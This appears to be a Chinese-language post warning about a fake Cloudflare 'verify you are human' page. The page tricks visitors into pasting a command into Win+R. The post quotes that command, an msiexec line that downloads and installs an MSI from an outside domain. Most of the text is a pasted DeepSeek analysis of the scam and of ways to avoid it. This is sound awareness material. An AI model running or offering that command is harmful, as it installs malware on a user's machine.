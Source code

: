 # [釣魚網站] 偽裝成 cloudflare 的破網站

找不到網址了不小心關掉 XD

反正他會叫你驗證不是機器人 然後按下 win+R 要你貼上
它 call web API 先複製了這串給你
msiexec SKSIA=1401 /package https://clrverify.com/verrify.msi /promptrestart LAPBOS=119 /passive NIANS=299

然後我們聽聽 deepseek 怎麼說

## 頁面分析

**這不是真實的 Cloudflare 驗證頁面，而是一個惡意騙局！**

### 為什麼這是假的？

1. **異常的驗證方式**：

   - 正版 Cloudflare 的驗證（如 CAPTCHA）通常是點擊圖片或輸入文字，**絕對不會要求你按 `Win + R` 或執行命令**。
   - 這類指令（如貼上並執行）常用於觸發惡意腳本或安裝不明軟體。

2. **可疑的指令內容**：

   - 你之前提供的 `msiexec` 命令是從這類騙局中複製的，攻擊者試圖誘騙你安裝惡意 MSI 檔案（如 `verrify.msi`）。
   - 正規網站不會要求用戶透過「執行命令」來驗證身份。

3. **域名問題**：
   - 雖然頁面顯示 `cloudflare.com`，但實際可能是仿冒頁面。
   - 檢查瀏覽器網址列是否為 **`https://www.cloudflare.com`**（有 HTTPS 鎖頭標誌），而非其他相似域名。

### 如何應對？

1. **立即關閉該頁面**，不要執行任何指令或輸入驗證碼。
2. **不要貼上或執行任何命令**（如 `msiexec`），這可能導致惡意軟體感染。
3. **掃描電腦**：
   - 使用防毒軟體（如 Windows Defender、Malwarebytes）全面掃描。
4. **檢查瀏覽器擴充功能**：
   - 這類騙局可能透過惡意擴充功能注入假頁面，移除不明擴充套件。

### 真實的 Cloudflare 驗證長怎樣？

正版 Cloudflare 驗證通常是：

- 簡單的 **「I'm not a robot」** 核取方塊。
- 圖片辨識挑戰（如「選出所有紅綠燈」）。
- 不會涉及系統操作或命令提示字元！

如果遇到類似要求，一律視為詐騙！

## 設計思路

確實，這類詐騙手法的設計越來越精細，甚至會讓人一時難以分辨真假。它們利用了幾個心理和技術上的技巧，讓騙局顯得更「真實」：

### **為什麼這個騙局看起來很聰明？**

1. **模仿知名品牌（Cloudflare）**：

   - 利用大公司的可信度（如 Cloudflare 的 DDoS 保護頁面），讓受害者降低戒心。

2. **偽裝成「安全驗證」流程**：

   - 一般用戶看到「驗證你不是機器人」會直覺配合，尤其是如果正在訪問某些網站時遇到類似提示。

3. **利用「技術感」指令增加可信度**：

   - 要求按 `Win + R`、貼上指令、按 Enter，這些動作看起來像「高級操作」，讓人誤以為是正規技術驗證。

4. **動機合理**：
   - 它不會直接要你「下載檔案」，而是偽裝成「驗證步驟」，降低懷疑。

### **但其實漏洞百出！**

✅ **真正 Cloudflare 驗證**：只會有 CAPTCHA（點選圖片、核取方塊），絕對不會叫你在「執行」輸入指令。  
✅ **惡意指令特徵**：

- 你之前問的 `msiexec` 命令，就是騙你安裝惡意 `.msi` 檔案的陷阱。
- 如果照做，可能會：
  - 安裝間諜軟體、勒索病毒
  - 竊取瀏覽器密碼、銀行資料
  - 變成殭屍網路的一部分

### **如何避免上當？**

1. **永遠不要按照網頁指示執行 `Win + R` + 貼上指令**（除非你 200% 確定來源可信）。
2. **檢查網址**：詐騙頁面可能用 `cl0udflare.com`（假域名）、或透過惡意廣告注入假驗證。
3. **使用瀏覽器擴充功能防護**：
   - **uBlock Origin**（擋惡意廣告）
   - **NoScript**（阻止可疑腳本）
4. **養成習慣**：遇到「驗證」要求，先關閉頁面，手動輸入正確網址（如 `https://www.cloudflare.com`）再試。

### **總結**

這種騙局「聰明」在於它結合了社交工程（Social Engineering）和技術指令，讓人一時不察。但記住：**任何要求你執行命令、下載檔案、輸入敏感資訊的「驗證」，99.9% 是詐騙！** 保持懷疑態度，就能避免中招。
